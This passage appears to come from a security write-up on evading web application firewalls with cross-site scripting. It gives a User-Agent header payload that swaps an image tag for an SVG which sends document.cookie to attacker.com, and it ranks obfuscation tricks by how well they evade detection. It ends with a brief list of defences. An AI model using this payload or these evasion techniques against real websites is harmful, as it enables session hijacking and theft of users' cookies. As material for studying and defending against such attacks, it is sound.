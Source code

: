 ```
User-Agent: <img src=x onerror="this.outerHTML='<svg onload=fetch(`http://attacker.com/log?c=`+document.cookie)>'">
```  

>This **replaces the image tag with an SVG element** that **executes JavaScript**.  

>✅ **Bypasses WAFs filtering `document.cookie` within `<img>` but allowing `<svg>` execution**.

----  

# Selecting Obfuscation?  

| **Bypass Technique** | **Effectiveness** | **Detection Risk** |
|----------------------|------------------|--------------------|
| **URL Encoding** (`%22fetch%28...`) | Low | Easily detected |
| **Hex Encoding** (`String.fromCharCode()`) | Medium | Harder to detect |
| **Base64 Encoding** (`atob()`) | High | Harder to detect |
| **Variable Obfuscation** (`a='doc'; b='ument'`) | Very High | Bypasses most WAFs |
| **JavaScript Delays** (`setTimeout()`) | High | Delays execution |
| **Remote Script Injection** | Very High | Harder to block |  

----  

# Remediation Prevention  

>Defense: How to Stop WAF Bypass Techniques:  

✅ **Normalize Inputs**: Convert all inputs to **lowercase** before validation.  
✅ **Use Web Application Firewalls with Machine Learning**: Modern **AI-based WAFs** can detect obfuscated payloads.  
✅ **Limit Allowed Encoding**: Block requests using **UTF-16, Unicode encoding, and nested Base64**.  
✅ **Use Secure Parsers**:  
✅ For **XML**, disable **DTD processing**.  
✅ For **JSON**, use **strict schema validation**.  
✅ **Rate-Limiting & Anomaly Detection**: Block excessive requests to **detect evasion attempts**.  
